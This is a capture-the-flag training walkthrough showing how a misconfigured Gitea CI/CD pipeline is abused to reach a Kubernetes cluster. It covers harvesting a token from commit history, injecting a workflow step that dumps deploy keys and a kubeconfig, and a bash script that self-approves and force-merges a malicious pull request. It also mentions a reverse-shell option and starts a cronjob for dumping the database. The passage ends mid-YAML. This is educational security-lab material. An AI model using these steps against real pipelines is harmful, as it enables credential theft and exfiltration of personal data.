# Scenario: Devious Developer Data Dump

- [Learning Outcomes](#learning-outcomes)
- [Challenge Description](#challenge-description)
- [Guided Walkthrough](#guided-walkthrough)
  - [Step 1: Enumerate the Rescue Drop git repository and reviewing the production image build](#step-1-enumerate-the-rescue-drop-git-repository-and-reviewing-the-production-image-build)
  - [Step 2: Reviewing the test-ci repository and discovering a secret](#step-2-reviewing-the-test-ci-repository-and-discovering-a-secret)
  - [Step 3: Creating a fork of the production image build repository to dump environment variables](#step-3-creating-a-fork-of-the-production-image-build-repository-to-dump-environment-variables)
  - [Step 4: Leveraging the user token to approve a pull request](#step-4-leveraging-the-user-token-to-approve-a-pull-request)
  - [Step 5: Using the kubeconfig to deploy a workload and dump the database to pod logs](#step-5-using-the-kubeconfig-to-deploy-a-workload-and-dump-the-database-to-pod-logs)
- [Remediation and Security Considerations](#remediation-and-security-considerations)

## Learning Outcomes

The purpose of Devious Developer Data Dump is to teach participants about dangers of CI/CD infrastructure and how misconfigurations can lead to full cluster compromise. This includes:

1. The impact of storing secrets in a git repository
2. How attackers leverage alternative interfaces such as an API to gain access to services
3. Understanding how CI runners are abused to obtain access to other environments
4. The importance of securing CI/CD infrastructure and restricting command execution

## Challenge Description

```
     ____________________________________________________________________________
    |  ____                                                                      |
    | [____] [_]   [_][_][_][_] [_][_][_][_] [_][_][_][_] [_][_][_] [_][_][_][_] |
    |                                                ___                         |
    | [_][_] [§][1][2][3][4][5][6][7][8][9][0][+]['][___] [_][_][_] [_][_][_][_] |
    | [_][_] [__][q][å][ä][p][y][f][g][c][r][l][x][@][  | [_][_][_] [_][_][_][ | |
    | [_][_] [___][a][o][e][u][i][d][h][t][n][s][j][-][_|           [_][_][_][_| |
    | [_][_] [_][<]['][,][.][k][ö][b][m][w][v][z][______]    [_]    [_][_][_][ | |
    | [_][_] [__][_][__][_____________________][__][_][_] [_][_][_] [____][_][_| |
    |____________________________________________________________________________|

Captain Hλ$ħ𝔍Ⱥ¢k is targeting a distribution company called Rescue Drop as it holds Personal Identifiable Information (PII)

The Rescue Drop application is not accessible publicly but is open source!

Can you exfiltrate the sensitive data and prove your worth to the Hλ$ħ𝔍Ⱥ¢k motley crew?
```

## Guided Walkthrough

### Step 1: Enumerate the Rescue Drop git repository and reviewing the production image build

The first step is access the Rescure Drop git repository. This is accessible via the following command:

```bash
ssh -F cp_simulator_config -L 8080:127.0.0.1:8080 bastion -N
```

As the rescue drop application is open source, we can go to `Explore` the git repository and see three projects.



The first project is the Rescue Drop production image build, the next project is a chatbot and last project looks like a users project for testing the CI functionality.

Examining the production image build, we can see a `cronjob.yaml` which contains a processor container which is scheduled for every minute and has access to volume mount with a resource called `db`.



We can assume that this `cronjob` is processing data from the database on a regular schedule. The `process-orders.py` script, which is included in the Dockerfile, confirms our assumption.



There is also a GitHub actions workflow which is triggered on every push to the main branch. This workflow uses a build image to perform the following steps:

1. Install kubectl on the build image
2. Sets up Docker buildx action to create the production image
3. Logs into the Production registry
4. Pushes the built production image to the Production registry
5. Deploys the production image using kubectl



Included within the `build.yaml` are interesting environmental variables. We can see that there is a `#FLAG: ${{ secrets.CTF_FLAG }}` and `echo "${{ secrets.KUBECONFIG }}" > $KUBECONFIG`. This means if we can access the `build.yaml` file, we can likely output this sensitive data and reuse it to potentially deploy a workload into production.

Before we move away from the production image build project, there is a `MAINTAINERS` file which indicates who has ownership over the repository. This is worth noting as these are users accounts we want to access to manipulate any files or approve merge requests.



### Step 2: Reviewing the test-ci repository and discovering a secret

If we turn our attention to the `test-ci` repository, we can see that there is a Dockerfile which has the beginning of a custom build image, potentially used for a CI pipeline. Once again we can see a GitHub actions workflow which uses a build image to checkout the git repository and test the build image. There is nothing to revealing in the current file but if look closer at the project there are 3 commits.



Reading the commit messages, the second commit is interesting as it mentions making the token more secure. Sure enough, reviewing the commit reveals a secret token.



> Note: The token generated is randomly generated and will differ on your system.

### Step 3: Creating a fork of the production image build repository to dump environment variables

We can attempt to login using the token for the user IRamos but we are unable to login.



If we do a little bit of research we can see that the token is for [API](https://docs.gitea.com/development/api-usage). At the bottom right corner, we can see the `API` button which directs us to swagger spec for the Gitea API.



As previously discussed, we will likely need to approve a pull request to gain access to the `build.yaml` file. We can see that there is a `POST /repos/{owner}/{repo}/pulls/{index}/reviews` endpoint under `repository` which allows us to approve a pull request. We can also see that we need to provide a `token` in the header.

Let's create a fork with a new user and look to use the token later to approve our malicious code. We can register a new user (a fake email is fine).



Once we have registered a new user, we can create a fork of the `production-image-build` repository.



Now let's add a few lines to the `build.yaml` to output the sensitive data we discovered eariler.

First clone the repo.

```bash
git clone http://localhost:8080/wakeward/production-image-build.git
Cloning into 'production-image-build'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 13 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (13/13), 6.94 KiB | 6.94 MiB/s, done.
```

Second, configure git for the repo.

```bash
cd production-image-build/
git config --local user.name wakeward
git config --local user.email wakeward@ownthisrepo.sec
```

Now, let's modify the `build.yaml` to include following:

```bash
     - name: pwn
        run: |
          env
          echo "${{ secrets.DEPLOY_KEY }}" | base64 -w0
          echo "${{ secrets.KUBECONFIG }}" | base64 -w0
          echo “${{ secrets.CTF_FLAG}}” | base64
```

> Note: We are editing a yaml file which is space sensitive. Make sure you are using spaces and not tabs.

The final file should look something like this:

```yaml
on:
  push:
    branches:
      - main

jobs:
  build-prod-image:
    name: build-image
    runs-on: ubuntu-latest
    env:
      DEPLOY_USER: ci
      REGISTRY: 172.31.2.136:30080
      KUBE_APISERVER: 172.31.2.136:6443
      #FLAG: ${{ secrets.CTF_FLAG }}
    steps:
      - name: Install Kubectl
        uses: azure/setup-kubectl@v3

      - name: Git Checkout
        uses: https://gitea.com/actions/checkout@v3

      - name: Set up Docker Buildx
        uses: docker/setup-buildx-action@v2
        with:
          config-inline: |
            [registry."${{ env.REGISTRY }}"]
              http = true
              insecure = true

      - name: pwn
        run: |
          env
          echo "${{ secrets.DEPLOY_KEY }}" | base64 -w0
          echo "${{ secrets.KUBECONFIG }}" | base64 -w0
          echo “${{ secrets.CTF_FLAG}}” | base64

      - name: Login to Production Registry
        uses: docker/login-action@v2
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ env.DEPLOY_USER }}
          password: ${{ secrets.DEPLOY_KEY }}

      - name: Container Build
        uses: docker/build-push-action@v4
        with:
          push: true
          tags: ${{ env.REGISTRY }}/prod-image:latest

      - name: Deploy to Cluster
        run: |
          export KUBECONFIG=$(mktemp)
          echo "${{ secrets.KUBECONFIG }}" > $KUBECONFIG
          kubectl apply -f cronjob.yaml
```

With this change, we can commit the change and push it to our forked repository.

```bash
git add -u

git commit -m "feat: new testing"
[main 8784960] feat: new testing
 1 file changed, 7 insertions(+)

git remote add fork http://localhost:8080/wakeward/production-image-build.git

git push fork
Username for 'http://localhost:8080': wakeward
Password for 'http://wakeward@localhost:8080':
Enumerating objects: 9, done.
Counting objects: 100% (9/9), done.
Delta compression using up to 16 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (5/5), 1.13 KiB | 1.13 MiB/s, done.
Total 5 (delta 2), reused 0 (delta 0), pack-reused 0
remote:
remote: Create a new pull request for 'wakeward:main':
remote:   http://localhost:8080/rescue-drop/production-image-build/compare/main...wakeward:main
remote:
remote: . Processing 1 references
remote: Processed 1 references in total
To http://localhost:8080/wakeward/production-image-build.git
   9ea3317..27b97fa  main -> main
```

So we have our malicious code in the `build.yaml` file, now we need to create a pull request and approve it. We can do this via the API.

### Step 4: Leveraging the user token to approve a pull request

First, let's create the pull request via the web interface. Navigate to the `rescue-drop/production-image-build` repository and click on the `Pull Requests` tab.

Select `merge into: rescue-drop:main` and `pull from: wakeward:main` and then click `New Pull Request` and then `Create Pull Request`.



Make a note of the pull request ID as we will need this later.

To merge the pull request, we need to perform the following steps using the API:

1. Start the pull request review
2. Approve the pull request
3. Merge the pull request

This is achieved with the following APIs:

1. `POST /repos/{owner}/{repo}/pulls/{index}/reviews`
2. `POST /repos/{owner}/{repo}/pulls/{index}/reviews/{index}/approve`
3. `GET /repos/{owner}/{repo}/pulls/{index}/commits` (for the `head_commit_id`)
4. `POST /repos/{owner}/{repo}/pulls/{index}/merge`

We can use the following script to perform the above steps:

```bash
#!/usr/bin/env bash

set -x

PR_ID=${1}
TOKEN=${2}

## Start review
read -r -d '' DATA <<EOF
{
  "body": "starting review...",
  "comments": [],
  "commit_id": "string",
  "event": "PENDING"
}
EOF
REVIEW_ID=$(curl -X 'POST' \
  "http://localhost:8080/api/v1/repos/rescue-drop/production-image-build/pulls/$PR_ID/reviews?access_token=$TOKEN" \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d "$DATA" \
  | jq .id -r )


## Finish review as approved
curl -X 'POST' \
  "http://localhost:8080/api/v1/repos/rescue-drop/production-image-build/pulls/$PR_ID/reviews/$REVIEW_ID?access_token=$TOKEN" \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{"body": "approved","event": "APPROVED"}'

## Merge
COMMIT=$(curl -X 'GET' \
  "http://localhost:8080/api/v1/repos/rescue-drop/production-image-build/pulls/$PR_ID/commits?access_token=$TOKEN" \
  -H 'accept: application/json' \
  | jq .[0].sha -r)

read -r -d '' DATA <<EOF
{
  "Do": "merge",
  "MergeCommitID": "1",
  "MergeMessageField": "string",
  "MergeTitleField": "merge pls",
  "delete_branch_after_merge": true,
  "force_merge": true,
  "head_commit_id": "$COMMIT",
  "merge_when_checks_succeed": false
}
EOF
curl -X 'POST' \
  "http://localhost:8080/api/v1/repos/rescue-drop/production-image-build/pulls/$PR_ID/merge?access_token=$TOKEN" \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d "$DATA"
```

> Note: An alternative method is downloading and using the Gitea CLI to perform the same actions. You can find out more about the client here: https://code.gitea.io/tea/

If the formatting is correct, we should see the following under `Actions` within `production-image-build` project.



By selecting the `merge pls` action, we can see the output of our new step `pwn`.



To ensure that the content of the sensitive environment variables is not malformed, we have base64 encoded it. To view the content, we can simply base64 decode it.

```bash
echo "echo "c3RvcmVpbWFnZQo=...PTl9GTEFXU33i" | base64 -d

storeimage
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tL...0FURS0tLS0tCg==
    server: https://172.31.2.127:6443
  name: default
contexts:
- context:
    cluster: default
    user: runner
  name: runner
current-context: runner
kind: Config
preferences: {}
users:
- name: runner
  user:
    client-certificate-data: LS0tLS...URS0tLS0tCg==
    client-key-data: LS0tLS1CRU...tRU5EIFBSSVZBVEUgS0VZLS0tLS0K
“flag_ctf{SECRETS_REVEALED_2_THOSE_WHO_ENVISION_FLAWS}"
```

From top to bottom, we have the following:

1. The deploy key for the registry - `storeimage`
2. The kubeconfig for the cluster - `apiVersion: v1 ...`
3. The flag - `flag_ctf{SECRETS_REVEALED_2_THOSE_WHO_ENVISION_FLAWS}`

Excellent we discovered the first flag and made a step forward to obtaining access to the production database.

### Step 5: Using the kubeconfig to deploy a workload and dump the database to pod logs

At this point there are a couple pathways to explore but we leverage the container registry to push our own container image too or we could directly leverage the kubeconfig to deploy a workload into the cluster. We highly recommend you explore different pathways to obtain access to the production environment, but for simplicity we will leverage the kubeconfig to deploy a workload.

We have access to a jumpbox, so let's load the kubeconfig and enumerate what permissions we have. We already know from the `build.yaml` file that we can create a cronjob.

```bash
echo "apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tLS...S0tLS0tCg==
    server: https://172.31.2.127:6443
  name: default
contexts:
- context:
    cluster: default
    user: runner
  name: runner
current-context: runner
kind: Config
preferences: {}
users:
- name: runner
  user:
    client-certificate-data: LS0t...0tLS0tCg==
    client-key-data: LS0tLS....=LS0tRU5EIFBSSVZBVEUgS0VZLS0tLS0K" > file.config
```

```bash
export KUBECONFIG=./file.config
```

With this configured, we can run `auth can-i` to see what permissions we have. Remember from the `cronjob` we know what the production namespace is `rescue-drop-prod`

```bash
root@jumpbox:~# kubectl auth can-i --list -n rescue-drop-prod
Resources                                       Non-Resource URLs   Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
cronjobs.batch                                  []                  []               [get list create update patch]
jobs.batch                                      []                  []               [get list create update patch]
jobs/log                                        []                  []               [get list]
pods/log                                        []                  []               [get list]
pods                                            []                  []               [get list]
deployments.apps                                []                  []               [get list]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

From the output, we only have the ability to `create` a cronjob or job and only `get` and `list` pods and deployments. More significantly we do not have the ability to `exec` into the running container so we are restricted to either a cronjob or job which triggers a reverse shell to a public endpoint or we could use our `jobs/log` and `pod/log` permission to output the contents of the database.

> Note: A easy way to obtain a public endpoint is to use https://ngrok.com/ and leverage a ncat to send a connection to the public IP and port configured.

In this instance, we know our objective is to get a dump of the database and not obtain a foothold in the production environment, so we'll leverage pod logs. We can copy the existing cronjob and use standard container with a command to output the contents of the database to `stdout`.

> Note: In Kubernetes, the Kubelet

The following cronjob has been constructed from the original `cronjob.yaml` file, replacing the image with a standard ubuntu image and adding a command to output the contents of the database.

```bash
apiVersion: batch/v1
kind: CronJob
metadata:
  name: db-dump
  namespace: rescue-drop-prod
spec:
  schedule: "* * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: db-dump
